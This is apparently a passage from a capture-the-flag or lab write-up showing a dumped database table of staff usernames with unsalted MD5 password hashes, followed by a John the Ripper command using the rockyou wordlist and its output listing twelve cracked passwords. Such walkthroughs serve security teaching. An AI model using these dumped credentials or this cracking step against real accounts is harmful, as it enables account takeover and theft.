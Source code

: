 
It took ages but here's the final result: 

```bash
+----+----------+----------------+---------------------------------------+
| id | is_staff | username       | password                              |
+----+----------+----------------+---------------------------------------+
|  3 | 1        | James          | c660060492d9edcaa8332d89c99c9239      |
|  4 | 1        | Theodore       | 925e5408ecb67aea449373d668b7359e      |
|  5 | 1        | Samantha       | 083ffae904143c4796e464dac33c1f7d      |
|  6 | 1        | Lauren         | 08344b85b329d7efd611b7a7743e8a09      |
|  7 | 1        | William        | d62be0dc82071bccc1322d64ec5b6c51      |
|  8 | 1        | Sabrina        | f87d3c0d6c8fd686aacc6627f1f493a5      |
|  9 | 1        | Robert         | f03b910e2bd0313a23fdd7575f34a694      |
| 10 | 1        | Thane          | 3577c47eb1e12c8ba021611e1280753c      |
| 11 | 1        | Carmon         | 35394484d89fcfdb3c5e447fe749d213      |
| 12 | 1        | Barry          | 54c88b2dbd7b1a84012fabc1a4c73415      |
| 13 | 1        | Oliver         | fd78db29173a5cf701bd69027cb9bf6b      |
| 14 | 1        | Michelle       | b83439b16f844bd6ffe35c02fe21b3c0      |
| 15 | 1        | Gloria         | 0cfaaaafb559f081df2befbe66686de0      |
| 16 | 1        | Victoria       | b22abb47a02b52d5dfa27fb0b534f693      |
| 17 | 1        | Alexendra      | 1c2b3d8270321140e5153f6637d3ee53      |
| 18 | 1        | Baxter         | 22ee218331afd081b0dcd8115284bae3      |
| 19 | 1        | Clara          | ef8f3d30a856cf166fb8215aca93e9ff      |
| 20 | 1        | Barbra         | 3961548825e3e21df5646cafe11c6c76      |
| 21 | 1        | Lenord         | ee0b8a0937abd60c2882eacb2f8dc49f      |
| 22 | 1        | Austin         | 0049ac57646627b8d7aeaccf8b6a936f      |
| 23 | 1        | Garfield       | 8097cedd612cc37c29db152b6e9edbd3      |
| 24 | 1        | Juliette       | 6dcd87740abb64edfa36d170f0d5450d      |
| 25 | 1        | Victor         | bf55e15b119860a6e6b5a164377da719      |
| 26 | 1        | Lucifer        | 7df45a9e3de3863807c026ba48e55fb3      |
| 27 | 1        | Bruno          | 2a4e2cf22dd8fcb45adcb91be1e22ae8      |
| 28 | 1        | Diablo         | ec33265e5fc8c2f1b0c137bb7b3632b5      |
| 29 | 1        | Robin          | dc332fb5576e9631c9dae83f194f8e70      |
| 30 | 1        | Stan           | 384463526d288edcc95fc3701e523bc7      |
| 31 | 1        | yoshihide      | b779ba15cedfd22a023c4d8bcf5f2332      |
| 33 | 0        | admin          | 665a50ac9eaa781e4f7f04199db97a11      |
+----+----------+----------------+---------------------------------------+
```

Let's crack them all at once using rockyou. 
 I got some of theme cracked: 


 ```bash
 └─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashesToCrack.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 30 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (?)     
physics69i       (?)     
paddpadd         (?)     
66boysandgirls.. (?)     
%$clara          (?)     
$monique$1991$   (?)     
$hadoW           (?)     
$3xybitch        (?)     
##123a8j8w5123## (?)     
!?Love?!123      (?)     
!5psycho8!       (?)     
!!sabrina$       (?)     
12g 0:00:00:01 DONE (2022-09-11 12:45) 11.32g/s 13531Kp/s 13531Kc/s 372043KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
 ```